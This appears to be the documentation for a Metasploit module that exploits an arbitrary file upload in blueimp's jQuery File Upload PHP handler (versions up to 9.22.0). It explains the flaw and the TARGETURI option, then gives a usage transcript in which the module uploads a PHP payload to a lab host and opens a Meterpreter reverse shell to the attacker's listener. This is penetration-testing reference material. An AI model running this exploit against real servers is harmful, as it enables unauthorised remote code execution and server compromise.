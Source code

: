 ## Introduction

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018. It has been present
since the `.htaccess` change in Apache 2.3.9.

This module provides a generic exploit against the jQuery widget.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

### TARGETURI

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] 172.28.128.3:80 The target appears to be vulnerable.
msf exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/FJx2tZWpurPHKIWaYX7sbGTraXTNlRaBB.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54414) at 2018-10-23 07:13:22 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
